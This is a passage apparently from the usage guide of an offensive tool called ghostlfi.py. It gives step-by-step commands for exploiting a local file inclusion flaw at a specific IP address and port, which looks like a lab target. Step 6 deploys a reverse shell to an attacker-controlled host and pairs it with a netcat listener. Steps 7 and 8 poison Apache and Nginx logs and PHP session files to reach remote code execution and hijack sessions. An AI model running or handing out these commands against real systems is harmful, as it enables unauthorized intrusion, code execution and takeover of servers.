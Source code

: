 
### Step 6: Get Reverse Shell
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --auto \
  --revshell \
  --lhost YOUR_IP \
  --lport 4444

# On another terminal first:
nc -lvnp 4444

# Tool will:
# 1. Test 9 reverse shell types
# 2. Find working one
# 3. Deploy it
# 4. You get shell in nc listener!
```

---

### Step 7: Log Poisoning (if logs found)
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --test-log-poison

# Tests:
# - Apache access.log poisoning
# - Nginx access.log poisoning
# - User-Agent injection
# - Automatic RCE via logs
```

---

### Step 8: Session Poisoning
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --test-session-poison

# Tests:
# - PHP session file poisoning
# - Session hijacking
# - RCE via session files
```

---